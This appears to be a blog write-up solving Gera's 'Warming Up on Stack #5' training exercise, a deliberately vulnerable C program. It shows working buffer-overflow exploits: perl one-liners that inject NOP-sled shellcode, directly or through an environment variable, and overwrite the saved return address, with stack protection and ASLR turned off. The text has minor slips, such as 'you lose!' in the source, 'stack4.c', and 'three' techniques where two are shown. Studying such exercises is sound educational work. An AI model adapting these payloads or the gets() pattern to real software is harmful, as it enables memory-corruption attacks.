 Gera's Warming Up on Stack #5 - Solutions
=========================================
date: 05/Jan/2013
summary: Solutions for Gera's Warming up on Stack #5 program.
tags: exploit, mitigations, buffer overflow, writeups

Following is the part 5 in the series of posts I started back in August 2012 with an aim to provide an analysis and possible solutions for the vulnerable programs provided by [Gera](http://corelabs.coresecurity.com/index.php?module=Wiki&action=view&type=researcher&name=Gerardo_Richarte) at his [Insecure Programming](http://community.corest.com/%7Egera/InsecureProgramming/) by example page.

This post follows the [Gera's Warming Up on Stack #4 - Solutions](https://7h3ram.github.io/posts/20130104_geras-wuos-stack4-solutions.html) post and if you have not read it, I request you to please do so. Most of the concepts are very similar and since they have been already talked about, I'll not be reiterating them here.

Let's get started. Below is the source for the vulnerable [stack5.c](http://community.corest.com/%7Egera/InsecureProgramming/stack5.html) program:

```c
/* stack5.c                                     *
 * specially crafted to feed your brain by gera */
int main() {
    int cookie;
    char buf[80];
    printf(*buf: %08x cookie: %08x\n*, &buf, &cookie);
    gets(buf);
    if (cookie == 0x000a0d00)
        printf(*you lose!\n*);
}
```

The above program too accepts user-input through the gets function and then looks for a specific value in a local variable named `cookie`. If this value is equal to a certain pre-defined constant, `printf` function is used to show a `you win!` message to the user. There is no direct means of modifying the content of the `cookie` variable. The `gets` function will keep reading from the stdin device until it encounters a newline or EoF character. Since this reading loop fails to honor the size of the destination buffer, a classic buffer overflow vulnerability is introduced in the program. Our aim is to leverage this vulnerability and exploit this program so that it print the `you win!` message to stdout.

Here are a few observations that could be made by looking at the source of the program:

1.  Since it is defined prior to `buf`, the `cookie` would be placed at
    a higher memory address on the program stack, just below the saved
    registers from the function prologue
2.  The `buf` character array would be at an offset of at least 80B from
    `cookie`
3.  The `gets` call would accept unbounded user-input within `buf` array
    and hence it provides a mechanism to alter the call stack contents
4.  Interestingly, the `you win!` statement is missing from this
    example. As such, gaining control over `cookie` or EIP alone won't
    help with the completion of this example.

Stack layout for [stack5.c](http://community.corest.com/%7Egera/InsecureProgramming/stack5.html) is identical to [stack1.c](http://community.corest.com/%7Egera/InsecureProgramming/stack1.html) as already outlined in the [Gera's Warming Up on Stack #1 - Solutions](https://7h3ram.github.io/posts/20120827_geras-wuos-stack1-solutions.html) post.

Here are a few solutions I could think of to get the `you win!` message printed:

-   Solution #1: Inject a NOP-prefixed `printf(you win!)` shellcode and
    overwrite EIP with its address
-   Solution #2: Inject a NOP-prefixed `printf(you win!)` shellcode
    through an environment var and overwrite EIP with its address

Here's a brief description of the test system:

```console
# cat /etc/lsb-release | grep DESC ; uname -a | cut -d' ' -f1,3,12-13 ; gcc --version | grep gcc ; cat /proc/cpuinfo | grep -E '(vendor|model|flags)'
DISTRIB_DESCRIPTION=*Ubuntu 10.04.2 LTS*
Linux 2.6.38 i686 GNU/Linux
gcc (Ubuntu 4.4.3-4ubuntu5) 4.4.3
vendor_id   : GenuineIntel
model       : 37
model name  : Intel(R) Core(TM) i3 CPU       M 350  @ 2.27GHz
flags       : fpu vme de pse tsc msr pae mce cx8 apic sep mtrr pge mca cmov pat pse36 clflush mmx fxsr sse sse2 syscall nx lm constant_tsc up pni monitor ssse3 lahf_l
```

Solution #1: Inject a NOP-prefixed printf(you win!) shellcode and overwrite EIP with its address
-------------------------------------------------------------------------------------------------

Here's the GCC commandline to prepare [stack4.c](http://community.corest.com/%7Egera/InsecureProgramming/stack4.html) for Solution #1:

```console
# gcc -mpreferred-stack-boundary=2 -fno-stack-protector -z execstack -o stack5 stack5.c 2>/dev/null ; readelf -l stack5 | grep GNU_STACK
  GNU_STACK      0x000000 0x00000000 0x00000000 0x00000 0x00000 RWE 0x4
#
# echo 0 >/proc/sys/kernel/randomize_va_space ; cat /proc/sys/kernel/randomize_va_space
0
```

The Null-free, NOP-prefixed `printf(you win!)` shellcode we used to exploit [stack1.c](http://community.corest.com/%7Egera/InsecureProgramming/stack1.html) in the [Gera's Warming Up on Stack #1 - Solutions](https://7h3ram.github.io/posts/20120827_geras-wuos-stack1-solutions.html) post could be reused here:

```console
# ./stack5
buf: bffff4c4 ``cookie``: bffff514
#
# ./stack5
buf: bffff4c4 ``cookie``: bffff514
# ./stack5
buf: bffff4c4 ``cookie``: bffff514
#
# perl -e 'print *\x90*x51 . *\xeb\x16\x31\xc0\x31\xdb\x31\xd2\xb0\x04\xb3\x01\x59\xb2\x09\xcd\x80\x31\xc0\x40\x31\xdb\xcd\x80\xe8\xe5\xff\xff\xff\x79\x6f\x75\x20\x77\x69\x6e\x21* . *\xc4\xf4\xff\xbf*' | ./stack5
buf: bffff4c4 ``cookie``: bffff514
you win!#
```

Solution #2: Inject a NOP-prefixed printf(you win!) shellcode through an environment var and overwrite EIP with its address
----------------------------------------------------------------------------------------------------------------------------

Lets get straight to the exploitation:

```console
# echo $WINCODE | hexdump -C
00000000  eb 16 31 c0 31 db 31 d2  b0 04 b3 01 59 b2 20 cd  |..1.1.1.....Y. .|
00000010  80 31 c0 40 31 db cd 80  e8 e5 ff ff ff 79 6f 75  |.1.@1........you|
00000020  20 77 69 6e 21 20 0d 0a                           | win! ..|
00000028
#
# ./getenvaddr WINCODE ./stack5
[+] WINCODE: 0xbffff726
#
# perl -e 'print *\x90*x88 . *\x26\xf7\xff\xbf*' | ./stack5
buf: bffff4c4 ``cookie``: bffff514
you win!
```

So, we have now successfully exploited the [stack5.c](http://community.corest.com/%7Egera/InsecureProgramming/stack5.html) program through three different techniques. Depending on the motive of your exploitation attempt, other techniques could be devised and some, mentioned here, be rejected.

Like I said, earlier, these solutions are not practical anymore. They just serve the purpose of understanding how exploits used to work before mitigation features were introduced in modern systems. But, as with everything else, understanding basics is really important. As mitigation features mature, exploitation techniques become increasingly complex. And to understand those, we need to build upon the solid foundation of basic concepts, like those discussed on this and other blogs.

This was the last post in the *Geras' Warming Up on Stack* series. I plan to start another series for *Gera's Advanced Buffer Overflows* examples. Stay tuned for further updates.
